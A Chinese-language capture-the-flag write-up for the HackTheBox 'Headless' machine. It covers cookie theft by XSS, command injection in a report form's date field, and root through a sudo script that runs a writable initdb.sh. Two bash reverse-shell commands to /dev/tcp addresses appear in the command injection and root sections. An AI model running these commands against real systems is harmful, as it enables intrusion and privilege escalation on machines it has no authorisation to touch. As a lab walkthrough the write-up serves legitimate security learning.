## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Headless  
❯ nmap headless.htb      

Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

进入**5000**端口查看，自动跳转到一个**support**路由



## Dirsearch

```
[root@kali] /home/kali/Headless  
❯ dirsearch -u headless.htb:5000                                                         
Target: http://headless.htb:5000/

Starting:                                                                                                        
401 - 317B  - /dashboard                                        
200 - 2KB - /support                                          
                                                                             
Task Completed                 
```

进入**dashboard**，发现需要身份认证



## SSTI to XSS

查看HTTP头发现是用**Python**搭建的，应该是**Flask**



尝试在**message**部分写入**{{9\*9}}**，被检测到了，并且会发送给**Admin**



根据这个响应，猜测是要把带有恶意**XSS**代码的**HTTP**头发送给**Admin**，然后获取到**Cookie**

在这里选用**User-Agent**字段进行**XSS**注入

```
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=123&lname=123&email=123%40qq.com&phone=123&message=%7B%7B9*9%7D%7D
```

设立监听，获取到**cookie**



## User

进入到**Dashboard**后是一个生成报告的工具



抓包后尝试命令执行，可以看到读取到目录文件



```
date=2023-09-15;bash+-c+'bash+-i+>%26+/dev/tcp/10.10.xx.xx/xxxx+0>%261'
```

设立监听获取到反弹**shell**



获取到user.txt



## Root

发现一个具有特殊权限的命令**syscheck**



```

#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

使用**ChatGPT**进行分析，该脚本的目的是定期检查系统状态并提供以下信息：

1. 当前系统的内核文件的最后修改时间。

3. 系统根目录的可用磁盘空间。

5. 系统负载平均值。

7. 检查并启动数据库服务（`initdb.sh`）。

如果不是 **root** 用户，脚本会直接退出。

```
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.12/5555 0>&1"' > initdb.sh
```



运行，另一边监听端口，获取到**Root shell**



## Summary

`User`：**SSTI**的**waf**引发了**XSS**漏洞，获取到管理员的**Cookie**，并且在**dashboard**里可以进行命令执行，获取到反弹**Shell**

`Root`：具有特殊权限的命令**syscheck**，只需把反弹**Shell**语句写入**initdb.sh**，在执行**syscheck**就能获取到**Root**权限
